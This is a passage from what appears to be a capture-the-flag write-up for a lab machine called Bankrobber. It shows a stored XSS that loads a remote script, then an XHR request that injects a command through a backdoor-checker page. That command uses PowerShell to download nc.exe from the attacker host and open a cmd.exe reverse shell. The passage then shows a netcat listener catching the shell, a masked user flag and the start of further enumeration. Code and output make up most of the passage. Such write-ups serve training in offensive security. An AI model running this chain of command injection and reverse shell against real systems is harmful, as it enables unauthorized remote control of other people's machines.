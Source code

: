 ```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://localhost/admin/backdoorchecker.php", true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('cmd=dir|powershell -c "Invoke-WebRequest -Uri http://10.10.XX.XX/nc.exe -OutFile %temp%\\nc.exe"; %temp%\\nc.exe -e cmd.exe 10.10.XX.XX 1337');
```

Then, back to our regular user homepage, we send another transaction with the following comment:

```html
<script src="http://10.10.XX.XX/load.js"></script>
```

We then setup our `nc` listener, this time to listen for a reverse shell.

```bash
$ sudo nc -lvnp 1337
listening on [any] 1337 ...
```

Subsequently, we will receive a connection as `cortin`.

```bash
$ rlwrap nc -lvnp 1337 
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.154] 50589
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. Alle rechten voorbehouden.

whoami
whoami
bankrobber\cortin
```
# user.txt

The user flag is in `cortin`'s Desktop.

```
type user.txt
f635XXXXXXXXXXXXXXXXXXXXXXXXXXXX
C:\Users\Cortin\Desktop>
```

# Enumeration (2)

In the `C:\` directory, there is a file called `bankv2.exe`.

```
dir C:\

 Volume in drive C has no label.
 Volume Serial Number is C80C-B6D3

 Directory of C:\

25-04-2019  16:50            57.937 bankv2.exe
...
```
